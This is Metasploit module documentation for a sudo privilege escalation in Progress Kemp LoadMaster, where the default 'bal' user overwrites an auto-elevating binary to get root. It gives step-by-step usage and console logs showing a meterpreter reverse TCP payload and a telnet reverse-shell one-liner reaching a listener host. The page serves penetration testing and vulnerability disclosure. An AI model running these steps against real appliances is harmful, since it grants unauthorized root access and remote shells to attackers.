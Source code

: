 ## Vulnerable Application
Progress Kemp LoadMaster up to at least 7.2.59.2.22338.  The vendor is aware of this "feature," but
has chosen not to change the behavior.  It was originally paired with CVE-2024-1212, but as this
privilege escalation was not patched when CVE-2024-1212 was, we split it into its own module.
This exploit/feature allows the default `bal` user to run several binaries with the `sudo` prefix
that will elevate without prompting for a password.  As the configuration is based on filename and
the `bal` user has write permissions to these files, the `bal` user can simply write over the existing
binary with one of their choosing, then prefix it with `sudo` and launch the binary with `root`
privileges.
This module defaults to overwrite `/bin/loadkeys` with `/bin/bash`, though other binaries would work,
too.

For more details on the vulnerability:  
https://rhinosecuritylabs.com/research/cve-2024-1212unauthenticated-command-injection-in-progress-kemp-loadmaster/

https://support.kemptechnologies.com/hc/en-us/articles/23878931058445-LoadMaster-Security-Vulnerability-CVE-2024-1212

A trial VM which the exploit should work against out of the box can be downloaded from:
https://sso.kemptechnologies.com/register/kemp/vlm

The AWS marketplace also has free trials which can be used. These require the "session management" to be enabled in order for the exploit to work. Since by default the admin WUI is behind basic auth.
https://aws.amazon.com/marketplace/pp/prodview-kgh3dsfk7qcnw

Because this is an appliance, there are limited commands available for command-based payloads.

## Verification Steps
1. Install the application
1. Start msfconsole
1. Gain a session on a Progress Kemp Loadmaster target as the `bal` user
1. Do: `use exploits/linux/local/progress_kemp_loadmaster_sudo_privesc_2024`
1. Do: `set SESSION <session>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `root` user.

## Scenarios

### LoadMaster 7.2.59.0.22007
#### Metasploit Binary Dropper Payload
```msf
msf exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > show options

Module options (exploit/linux/local/progress_kemp_loadmaster_sudo_privesc_2024):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   SESSION        1                yes       The session to run this module on
   TARGET_BINARY  /bin/loadkeys    yes       The path for a binary file that has permission to auto-elevate.
   WRITABLE_DIR   /tmp             yes       A directory where we can write files


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Dropper



View the full module info with the info, or info -d command.

msf exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found 3 indicators this is a KEMP product
[!] The service is running, but could not be validated.
[*] Writing payload to /tmp/.rypuliojtdch
[*] Moving /bin/loadkeys to /tmp/.qyiojnfbnfc
[*] Moving /tmp/.rypuliojtdch to /bin/loadkeys
[*] Running /bin/loadkeys
[+] Deleted /tmp/.rypuliojtdch
[*] Meterpreter session 2 opened (10.5.135.201:4444 -> 10.5.134.141:28850) at 2024-05-10 08:50:39 -0500
[*] Moving /tmp/.qyiojnfbnfc to /bin/loadkeys
[+] /bin/loadkeys returned to original contents

meterpreter > sysinfo
Computer     : 10.5.134.141
OS           : SuSE 7.2 (Linux 4.14.137)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > 


```

#### Reverse Bash Command Payload
```msf
msf exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > show options

Module options (exploit/linux/local/progress_kemp_loadmaster_sudo_privesc_2024):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   SESSION        1                yes       The session to run this module on
   TARGET_BINARY  /bin/loadkeys    yes       The path for a binary file that has permission to auto-elevate.
   WRITABLE_DIR   /tmp             yes       A directory where we can write files


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Command



View the full module info with the info, or info -d command.

msf exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > run

[+] sh -c '(sleep 4376|telnet 10.5.135.201 4444|while : ; do sh && break; done 2>&1|telnet 10.5.135.201 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found 3 indicators this is a KEMP product
[!] The service is running, but could not be validated.
[*] Preparing payload command
[*] Moving /bin/loadkeys to /tmp/.mnqdvfwutfd
[*] Moving /bin/bash to /bin/loadkeys
[*] Running payload command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo igZFhKRnh9GplIdu;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\nigZFhKRnh9GplIdu\r\n"
[*] 
[*] Moving /tmp/.mnqdvfwutfd to /bin/loadkeys
[*] Matching...
[*] B is input...
[+] /bin/loadkeys returned to original contents

ls
azurelinuxagent
bin
cgroup
dev
dmZPnkPUPoV
etc
initial_setup.sh
lib
lib64
lost+found
mnt
one4net
openssl
proc
root
sbin
sks
sys
tmp
user
usr
var
touch tempfile
ls -l
total 51
drwxr-xr-x   5 root root  1024 Mar 22  2023 azurelinuxagent
.
.
.
-rw-r--r--   1 root root     0 May  3 17:02 tempfile
.
.
drwxr-xr-x  12 root root  1024 Mar 21 17:29 var
```

